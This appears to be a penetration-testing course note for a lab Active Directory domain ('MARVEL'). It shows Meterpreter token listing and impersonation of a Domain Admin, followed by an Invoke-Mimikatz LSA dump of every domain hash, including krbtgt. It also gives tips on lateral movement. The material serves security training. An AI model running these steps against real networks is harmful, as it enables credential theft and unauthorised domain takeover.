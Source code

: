 * If the user is a Domain Admin and that token is available, we can impersonate it and become them!
* We will use <mark style="color:yellow;">mimikatz</mark> here!

List Tokens:

```
meterpreter > list_tokens -u
Delegation tokens available
MARVEL\Administrator
MARVEL\fcastle
```

Impersonate Token:

```
meterpreter> impersonate_token MARVEL\\administrator
Delegation tokens available
Successfully impersonated user MARVEL\administrator

meterpreter> shell

C:\Windows\system32>whoami
marvel\administrator
```

* We are now administrator!

Now, we can Dump hashes as Domain Admin:

```
PS C:\> Invoke-Mimikatz -Command '"privilege::debug" "LSADump::LSA /patch" exit' -Computer HYDRA.marvel.local

mimikatz (powershell) # privilege::debug
privilege '20' OK

mimikatz (powershell) # LSADump::LSA /patch
```

* <mark style="color:yellow;">Upon success, this will dump all of the hashes within the domain</mark>
* <mark style="color:yellow;">This of course includes the Kerberos Ticket Granting Ticket Account (krbtgt)</mark>

## Incognito Token Impersonation

<mark style="color:yellow;">Remember, delegate tokens exist upon login and boot. If a user logs in, you can impersonate them until the computer reboots. Then, you will have to wait for them to log back in if so!</mark>

Servers are RARELY restarted.&#x20;

Think of the servers that you get access to, <mark style="color:yellow;">there very well could be a Domain Admin logged in</mark> to that computer! <mark style="color:yellow;">That token is essentially SITTING there</mark> until the computer reboots. This is one way to <mark style="color:yellow;">move laterally</mark> to machine to machine.&#x20;

